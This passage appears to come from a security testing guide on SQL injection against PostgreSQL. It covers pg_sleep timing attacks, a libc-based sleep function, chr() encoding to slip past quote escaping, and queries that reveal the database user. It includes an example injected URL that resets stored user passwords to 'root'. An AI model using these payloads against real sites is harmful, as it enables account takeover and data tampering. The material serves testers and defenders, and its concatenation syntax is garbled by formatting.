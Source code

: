 Starting at version 8.2, PostgreSQL introduced a built-in function,
*pg_sleep(n)*, to make the current session process sleep for *n*
seconds. This function can be leveraged to execute timing attacks
(discussed in detail at [Blind SQL
Injection](Blind_SQL_Injection "wikilink")).

In addition, you can easily create a custom *pg_sleep(n)* in previous
versions by using libc:

  - CREATE function pg_sleep(int) RETURNS int AS '/lib/libc.so.6',
    'sleep' LANGUAGE 'C' STRICT

### Single Quote unescape

Strings can be encoded, to prevent single quotes escaping, by using
chr() function.

  - chr(n): Returns the character whose ASCII value corresponds to the
    number n
  - ascii(n): Returns the ASCII value which corresponds to the character
    n

Let's say you want to encode the string 'root':

`  select ascii('r')`
`  114`
`  select ascii('o')`
`  111`
`  select ascii('t')`
`  116`

We can encode 'root' as:

` chr(114)`

| |chr(111) | |chr(111) | |chr(116)

**Example:**

`  http://www.example.com/store.php?id=1; UPDATE users SET PASSWORD=chr(114)`
`|`
`|chr(111)`
`|`
`|chr(111)`
`|`
`|chr(116)--`

### Attack Vectors

#### Current User

The identity of the current user can be retrieved with the following SQL
SELECT statements:

` SELECT user`
` SELECT current_user`
` SELECT session_user`
` SELECT usename FROM pg_user`
` SELECT getpgusername()`
